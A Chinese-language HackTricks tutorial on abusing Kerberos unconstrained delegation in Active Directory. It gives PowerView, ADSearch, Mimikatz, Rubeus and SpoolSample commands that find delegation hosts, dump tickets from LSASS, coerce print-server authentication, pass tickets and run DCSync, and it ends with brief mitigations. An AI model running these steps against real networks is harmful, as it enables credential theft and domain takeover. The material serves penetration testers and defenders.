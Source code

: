 # 无限委派

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

* 您在**网络安全公司**工作吗？ 想要看到您的**公司在HackTricks中做广告**吗？ 或者想要访问**PEASS的最新版本或下载PDF格式的HackTricks**吗？ 请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT收藏品](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) **Discord群**](https://discord.gg/hRep4RUj7f) 或 **电报群** 或在**Twitter**上关注我 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks repo](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享您的黑客技巧**。

</details>

## 无限委派

这是域管理员可以设置给域内任何**计算机**的功能。然后，每当**用户登录**到计算机时，该用户的**TGT副本**将被**发送到DC提供的TGS中并保存在LSASS中的内存中**。 因此，如果您在计算机上具有管理员权限，您将能够**转储票证并冒充用户**在任何计算机上。

因此，如果域管理员在启用了“无限委派”功能的计算机上登录，而您在该计算机上具有本地管理员权限，则您将能够转储票证并冒充域管理员（域提升）。

您可以通过检查[userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx)属性是否包含[ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx)来**查找具有此属性的计算机对象**。 您可以使用LDAP过滤器‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’来执行此操作，这就是powerview所做的事情：

<pre class="language-bash"><code class="lang-bash"># 列出无限委派计算机
## Powerview
Get-NetComputer -Unconstrained #DCs总是出现但对于权限提升没有用
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># 使用Mimikatz导出票证
</strong>privilege::debug
sekurlsa::tickets /export #推荐的方法
kerberos::list /export #另一种方法

# 监视登录并导出新票证
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #每10秒检查新的TGTs</code></pre>

使用**Mimikatz**或**Rubeus**将管理员（或受害用户）的票证加载到内存中进行**传递票证攻击**。\
更多信息：[https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**有关无限委派的更多信息，请访问ired.team。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **强制认证**

如果攻击者能够**入侵允许“无限委派”的计算机**，他可以**欺骗**一个**打印服务器**自动登录到该计算机**在服务器的内存中保存一个TGT**。\
然后，攻击者可以执行**传递票证攻击**来冒充用户打印服务器计算机帐户。

要使打印服务器登录到任何计算机，您可以使用[**SpoolSample**](https://github.com/leechristensen/SpoolSample)：
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
如果TGT来自域控制器，您可以执行**DCSync攻击**并从DC获取所有哈希。\
[**有关此攻击的更多信息，请查看ired.team。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**以下是尝试强制身份验证的其他方法：**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### 缓解

* 限制DA/Admin登录到特定服务
* 为特权帐户设置“帐户是敏感的，不能被委派”选项。
